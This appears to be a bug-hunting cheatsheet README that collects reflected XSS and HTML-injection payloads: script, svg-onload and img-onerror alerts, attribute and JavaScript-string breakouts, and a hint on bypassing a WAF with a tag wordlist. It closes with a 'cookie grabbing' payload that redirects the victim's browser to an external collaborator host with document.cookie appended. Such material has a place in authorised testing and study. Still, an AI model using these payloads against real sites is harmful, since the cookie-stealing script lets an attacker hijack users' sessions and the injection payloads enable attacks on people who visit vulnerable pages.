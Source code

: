### For html Injection
```
<h1>cyborg71</h1>
"><h1>cyborg71</h1>
<a href="https://google.com"></a>
```
# Testing Alert
```js
<script>alert(1337)</script>
```
![Screenshot from 2024-06-22 21-24-55](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/a4b3b27e-3e78-438e-90c1-38f3986f5a79)
```js
<svg/ onload=alert(1337)//
```
![Screenshot from 2024-06-22 21-30-13](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/cd6ea4c0-17df-448a-bc1a-caa4d293ee80)
```js
<Svg/OnLoad=(confirm)(1337)<!--
```
![Screenshot from 2024-06-22 21-34-37](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/2938507e-12e8-438d-ad7d-d1ec7d65a963)
```js
">cyborg71<script>alert(1337)</script>
```
![Screenshot from 2024-06-22 21-36-45](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/06045884-2e15-4998-bfe6-057cf34dbe92)
```js
<img src=x onerror=alert(1337)>
```
![Screenshot from 2024-06-22 21-38-04](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/925458b2-619b-4545-a675-81ee043cd00c)
#### For testing.
```js
"><h1>cyborg.71</h1>
<script onclick="alert(1337)">
<a href="javascript:alert('XSS')">Click me</a>
<img src=https://i.imgflip.com/8uo0t9.jpg>
```
# Reflected XSS into attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
![Screenshot from 2024-06-22 22-10-29](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5f0c53d6-0489-483d-a82d-373456ee9233)
# Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
'-alert(1)-'
```
Finally the code will look like this after response.
![Screenshot from 2024-06-23 19-29-18](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/5387641e-5ee7-4dca-89a3-e1253a426bc5)
# Reflected XSS into HTML context with most tags and attributes blocked
If tags are blocked by WAF, try this wordlist to detect an unblocked tag via burp intruder.
[xss-tags.txt](https://github.com/user-attachments/files/15944758/xss-tags.txt)
#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
